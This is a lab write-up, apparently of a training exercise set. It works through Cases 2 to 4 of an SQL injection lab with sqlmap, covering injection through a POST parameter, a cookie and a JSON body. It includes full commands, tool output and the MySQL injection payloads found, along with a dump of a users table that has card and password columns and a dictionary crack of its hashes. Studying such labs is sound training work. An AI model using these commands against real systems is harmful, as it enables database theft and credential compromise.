






## Exercises

### Question 1 — What's the contents of table flag2? (Case #2)

Landed on the target's index page, which listed Case #1 through Case #11, then opened Case #2, a page titled "Case2 - POST parameter" that said it detects and exploits an SQLi vulnerability in the POST parameter `id`.

Submitted the form with its default value (`id=1`), then used the browser's dev tools Network panel to right-click the resulting POST request and choose Copy as cURL, to get the exact request the page sent.





From there, I edited the raw cURL command and essentially built the SQLMap command by hand, marking the injection point in the POST data with `*` and keeping the browser's own User-Agent header:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://—REDACTED—:40363/case2.php' --data 'id=1*' -H 'Content-Type: application/x-www-form-urlencoded' -A 'Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' --batch --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.10.9#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:10:37 /2026-10-21/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[14:10:37] [INFO] testing connection to the target URL
[14:10:37] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:10:37] [INFO] testing if the target URL content is stable
[14:10:38] [INFO] target URL content is stable
[14:10:38] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[14:10:38] [INFO] (custom) POST parameter '#1*' appears to be dynamic
[14:10:38] [INFO] heuristic (basic) test shows that (custom) POST parameter '#1*' might be SQL injectable (possible DBMS: 'MySQL')
[14:10:38] [INFO] heuristic (XSS) test shows that (custom) POST parameter '#1*' might be vulnerable to cross-site scripting (XSS) attacks
[14:10:38] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[14:10:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:10:38] [WARNING] reflective value(s) found and filtering out
[14:10:38] [INFO] (custom) POST parameter '#1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="1958")
[14:10:38] [INFO] testing 'Generic inline queries'
[14:10:38] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[14:10:38] [WARNING] potential permission problems detected ('command denied')
[14:10:38] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[14:10:38] [INFO] testing 'MySQL >= 8.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UUID_TO_BIN)'
[14:10:38] [INFO] testing 'MySQL >= 8.0 OR error-based - WHERE or HAVING clause (UUID_TO_BIN)'
[14:10:38] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[14:10:38] [INFO] (custom) POST parameter '#1*' is 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)' injectable 
[14:10:38] [INFO] testing 'MySQL inline queries'
[14:10:38] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[14:10:38] [WARNING] time-based comparison requires larger statistical model, please wait............... (done)
[14:10:49] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 stacked queries (comment)' injectable 
[14:10:49] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:10:59] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[14:10:59] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:10:59] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:10:59] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:11:00] [INFO] target URL appears to have 9 columns in query
[14:11:00] [INFO] (custom) POST parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 42 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 4377=4377

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=1 AND EXTRACTVALUE(3203,CONCAT(0x5c,0x71766a7071,(SELECT (ELT(3203=3203,1))),0x716b786271))

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1624 FROM (SELECT(!SLEEP(5)))OEVz)

    Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x71766a7071,0x73455a50516573487a594d6e7057455559666d57446e617a435a4a76785055635171457a6649726e,0x716b786271),NULL,NULL,NULL-- -
---
[14:11:00] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[14:11:00] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[14:11:00] [INFO] fetching current database
[14:11:00] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries)
[14:11:00] [INFO] retrieved: 'testdb'
[14:11:00] [INFO] fetching tables for database: 'testdb'
[14:11:00] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:11:00] [INFO] retrieved: 'flag2'
[14:11:00] [INFO] retrieved: 'users'
[14:11:00] [INFO] fetching columns for table 'flag2' in database 'testdb'
[14:11:01] [INFO] retrieved: 'id'
[14:11:01] [INFO] retrieved: 'int(11)'
[14:11:01] [INFO] retrieved: 'content'
[14:11:01] [INFO] retrieved: 'varchar(512)'
[14:11:01] [INFO] fetching entries for table 'flag2' in database 'testdb'
[14:11:01] [INFO] retrieved: '—REDACTED—'
[14:11:01] [INFO] retrieved: '1'
Database: testdb
Table: flag2
[1 entry]
+----+------------+
| id | content    |
+----+------------+
| 1  | —REDACTED— |
+----+------------+

[14:11:01] [INFO] table 'testdb.flag2' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/—REDACTED—/dump/testdb/flag2.csv'
[14:11:01] [INFO] fetching columns for table 'users' in database 'testdb'
[14:11:01] [INFO] retrieved: 'id'
[14:11:02] [INFO] retrieved: 'int(11)'
[14:11:02] [INFO] retrieved: 'name'
—SNIP—
```

**Breakdown:**

- `sqlmap` invokes the tool
- `'http://—REDACTED—:40363/case2.php'` is the target URL
- `--data 'id=1*'` sends `id=1` as POST data, with the `*` marking the exact injection point immediately after `1`
- `-H 'Content-Type: application/x-www-form-urlencoded'` sets the `Content-Type` header to match a standard form-encoded POST body, as the original request used
- `-A 'Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0'` sets the `User-Agent` header to match the browser that originally sent the request
- `--batch` skips every interactive prompt by automatically choosing the default option
- `--dump` dumps the contents of any table SQLMap enumerates, once an injection point is confirmed

SQLMap found the `id` parameter injectable via boolean-based blind, error-based, stacked queries, time-based blind and UNION query techniques, fingerprinted the back end as MySQL >= 5.1 (MariaDB fork) on Debian 10 with Apache 2.4.38, and enumerated the current database as `testdb`, containing a `flag2` table and a `users` table. Dumping `flag2` returned a single row holding the flag.

**Answer:** `—REDACTED—`

### Question 2 — What's the contents of table flag3? (Case #3)

To get to Case #3, went back to the index page, which listed Case #1 through Case #11.



Case #3 was titled "Case3 - Cookie value (id)" and said it detects and exploits an SQLi vulnerability in the cookie value `id=1`, with a "click here" link.



After clicking the `click here` link, I clicked through and inspected the request in the Network panel's Headers tab and confirmed the `id` value was being sent as a cookie. 



With the hint pointing at the cookie, built the SQLMap command with `-H 'Cookie: id=1*'`, marking the injection point inside the cookie value directly:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://—REDACTED—:37783/case3.php' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://—REDACTED—:37783/case3.php' \
  -H 'Cookie: id=1*' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
--batch --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.10.9#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:59:52 /2026-10-21/

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[14:59:52] [INFO] resuming back-end DBMS 'mysql' 
[14:59:52] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 3643=3643

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=1 AND EXTRACTVALUE(7565,CONCAT(0x5c,0x716a626a71,(SELECT (ELT(7565=7565,1))),0x716b627a71))

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 4422 FROM (SELECT(!SLEEP(5)))mXfd)

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716a626a71,0x567a767065646f61777843646f4956576f717545716c7766744a4673627651716a4d4e696e64434f,0x716b627a71),NULL,NULL,NULL,NULL-- -
---
[14:59:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[14:59:52] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[14:59:52] [INFO] fetching current database
do you want to URL encode cookie values (implementation specific)? [Y/n] Y
[14:59:52] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries)
[14:59:52] [INFO] resumed: 'testdb'
[14:59:52] [INFO] fetching tables for database: 'testdb'
[14:59:52] [WARNING] potential permission problems detected ('command denied')
[14:59:52] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:59:52] [INFO] resumed: 'flag3'
[14:59:52] [INFO] resumed: 'users'
[14:59:52] [INFO] fetching columns for table 'users' in database 'testdb'
[14:59:53] [INFO] resumed: 'id'
[14:59:53] [INFO] resumed: 'int(11)'
[14:59:53] [INFO] resumed: 'name'
[14:59:53] [INFO] resumed: 'varchar(512)'
[14:59:53] [INFO] resumed: 'birthday'
[14:59:53] [INFO] resumed: 'varchar(512)'
[14:59:53] [INFO] resumed: 'occupation'
[14:59:53] [INFO] resumed: 'varchar(512)'
[14:59:53] [INFO] resumed: 'address'
[14:59:53] [INFO] resumed: 'varchar(512)'
[14:59:53] [INFO] resumed: 'phone'
[14:59:53] [INFO] resumed: 'varchar(512)'
[14:59:53] [INFO] resumed: 'cc'
[14:59:53] [INFO] resumed: 'varchar(512)'
[14:59:53] [INFO] resumed: 'email'
[14:59:53] [INFO] resumed: 'varchar(512)'
[14:59:53] [INFO] resumed: 'password'
[14:59:53] [INFO] resumed: 'varchar(512)'
[14:59:53] [INFO] fetching entries for table 'users' in database 'testdb'
[14:59:53] [INFO] recognized possible password hashes in columns 'occupation, password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[14:59:53] [INFO] using hash method 'sha1_generic_passwd'
—SNIP—
[14:59:53] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:59:53] [INFO] starting 4 processes 
Database: testdb
Table: users
[32 entries]
+----+------------+------------+------------+------------+------------+------------+------------+--------------------------------+
| id | cc         | email      | phone      | name       | address    | birthday   | password   | occupation                     |
+----+------------+------------+------------+------------+------------+------------+------------+--------------------------------+
| 1  | —REDACTED— | —REDACTED— | —REDACTED— | —REDACTED— | —REDACTED— | —REDACTED— | —REDACTED— | Linemen                        |
—SNIP—
| 32 | —REDACTED— | —REDACTED— | —REDACTED— | —REDACTED— | —REDACTED— | —REDACTED— | —REDACTED— | General and operations manager |
+----+------------+------------+------------+------------+------------+------------+------------+--------------------------------+

[14:59:58] [INFO] table 'testdb.users' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/—REDACTED—/dump/testdb/users.csv'
[14:59:58] [INFO] fetching columns for table 'flag3' in database 'testdb'
[14:59:58] [INFO] resumed: 'id'
[14:59:58] [INFO] resumed: 'int(11)'
[14:59:58] [INFO] resumed: 'content'
[14:59:58] [INFO] resumed: 'varchar(512)'
[14:59:58] [INFO] fetching entries for table 'flag3' in database 'testdb'
[14:59:59] [INFO] resumed: '—REDACTED—'
[14:59:59] [INFO] resumed: '1'
Database: testdb
Table: flag3
[1 entry]
+----+------------+
| id | content    |
+----+------------+
| 1  | —REDACTED— |
+----+------------+

[14:59:59] [INFO] table 'testdb.flag3' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/—REDACTED—/dump/testdb/flag3.csv'
[14:59:59] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/—REDACTED—'

[*] ending @ 14:59:59 /2026-10-21/
```

**Breakdown:**

- `sqlmap` invokes the tool
- `'http://—REDACTED—:37783/case3.php'` is the target URL
- `-H 'User-Agent: ...'` sets the `User-Agent` header to match the browser's original request
- `-H 'Accept: ...'`, `-H 'Accept-Language: ...'`, `-H 'Accept-Encoding: ...'`, `-H 'Sec-GPC: 1'`, `-H 'Connection: keep-alive'`, `-H 'Referer: ...'`, `-H 'Upgrade-Insecure-Requests: 1'`, `-H 'Priority: u=0, i'` each replicate one header from the original browser request, to keep the request looking as close to legitimate traffic as possible
- `-H 'Cookie: id=1*'` sets the `Cookie` header to `id=1`, with the `*` marking the injection point immediately after `1`
- `--batch` skips every interactive prompt by automatically choosing the default option
- `--dump` dumps the contents of any table SQLMap enumerates, once an injection point is confirmed

The run opened by resuming a stored session against this target's back-end MySQL, rather than running detection from scratch, so the output shows `resumed` rather than `retrieved` for most values. SQLMap also recognised password-shaped hashes in the `users` table's `occupation` and `password` columns and, with `--batch` defaulting to yes, ran a dictionary attack against them before continuing to `flag3`. Dumping `flag3` returned a single row holding the flag.

**Answer:** `—REDACTED—`

### Question 3 — What's the contents of table flag4? (Case #4)

Case #4 was titled "Case4 - JSON value (id)" and said it detects and exploits an SQLi vulnerability in JSON data (`{"id": 1}`). Used Copy as cURL from the Network panel on the request again.



The hint for this question suggested using `-r` for a complex HTTP request, but the request here was simple enough that it was handled directly with `--data` and matching headers instead:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://—REDACTED—:40363/case4.php' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://—REDACTED—:40363/' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
--data '{"id": 1}' --batch --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.10.9#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:48:12 /2026-10-21/

JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[14:48:12] [INFO] testing connection to the target URL
[14:48:12] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:48:12] [INFO] testing if the target URL content is stable
[14:48:12] [INFO] target URL content is stable
[14:48:12] [INFO] testing if (custom) POST parameter 'JSON id' is dynamic
[14:48:12] [INFO] (custom) POST parameter 'JSON id' appears to be dynamic
[14:48:12] [INFO] heuristic (basic) test shows that (custom) POST parameter 'JSON id' might be SQL injectable (possible DBMS: 'MySQL')
[14:48:13] [INFO] heuristic (XSS) test shows that (custom) POST parameter 'JSON id' might be vulnerable to cross-site scripting (XSS) attacks
[14:48:13] [INFO] testing for SQL injection on (custom) POST parameter 'JSON id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[14:48:13] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:48:13] [WARNING] reflective value(s) found and filtering out
[14:48:13] [INFO] (custom) POST parameter 'JSON id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="id")
[14:48:13] [INFO] testing 'Generic inline queries'
[14:48:13] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[14:48:13] [WARNING] potential permission problems detected ('command denied')
[14:48:13] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[14:48:13] [INFO] testing 'MySQL >= 8.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UUID_TO_BIN)'
[14:48:13] [INFO] testing 'MySQL >= 8.0 OR error-based - WHERE or HAVING clause (UUID_TO_BIN)'
[14:48:13] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[14:48:13] [INFO] (custom) POST parameter 'JSON id' is 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)' injectable 
[14:48:13] [INFO] testing 'MySQL inline queries'
[14:48:13] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[14:48:13] [WARNING] time-based comparison requires larger statistical model, please wait............... (done)
[14:48:24] [INFO] (custom) POST parameter 'JSON id' appears to be 'MySQL >= 5.0.12 stacked queries (comment)' injectable 
[14:48:24] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:48:34] [INFO] (custom) POST parameter 'JSON id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[14:48:34] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:48:34] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:48:34] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:48:34] [INFO] target URL appears to have 6 columns in query
[14:48:34] [INFO] (custom) POST parameter 'JSON id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
(custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 42 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"id": "1 AND 5064=5064"}

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: {"id": "1 AND EXTRACTVALUE(4629,CONCAT(0x5c,0x71787a6b71,(SELECT (ELT(4629=4629,1))),0x7170767671))"}

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: {"id": "1;SELECT SLEEP(5)#"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id": "1 AND (SELECT 4741 FROM (SELECT(!SLEEP(5)))HAPO)"}

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: {"id": "1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x71787a6b71,0x54625a5a71514858496856706f6d716b4d786e6556735a686d464c7948415477456f6c706e4f6175,0x7170767671)-- -"}
---
[14:48:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[14:48:34] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[14:48:34] [INFO] fetching current database
[14:48:34] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries)
[14:48:34] [INFO] retrieved: 'testdb'
[14:48:34] [INFO] fetching tables for database: 'testdb'
[14:48:34] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:48:35] [INFO] retrieved: 'flag4'
[14:48:35] [INFO] retrieved: 'users'
[14:48:35] [INFO] fetching columns for table 'users' in database 'testdb'
—SNIP—
[14:48:36] [INFO] fetching entries for table 'users' in database 'testdb'
[14:48:36] [INFO] retrieved: '—REDACTED—'
—SNIP—
[14:49:00] [INFO] table 'testdb.users' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/—REDACTED—/dump/testdb/users.csv'
[14:49:00] [INFO] fetching columns for table 'flag4' in database 'testdb'
[14:49:00] [INFO] retrieved: 'id'
[14:49:00] [INFO] retrieved: 'int(11)'
[14:49:00] [INFO] retrieved: 'content'
[14:49:00] [INFO] retrieved: 'varchar(512)'
[14:49:00] [INFO] fetching entries for table 'flag4' in database 'testdb'
[14:49:00] [INFO] retrieved: '—REDACTED—'
[14:49:00] [INFO] retrieved: '1'
Database: testdb
Table: flag4
[1 entry]
+----+------------+
| id | content    |
+----+------------+
| 1  | —REDACTED— |
+----+------------+

[14:49:00] [INFO] table 'testdb.flag4' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/—REDACTED—/dump/testdb/flag4.csv'
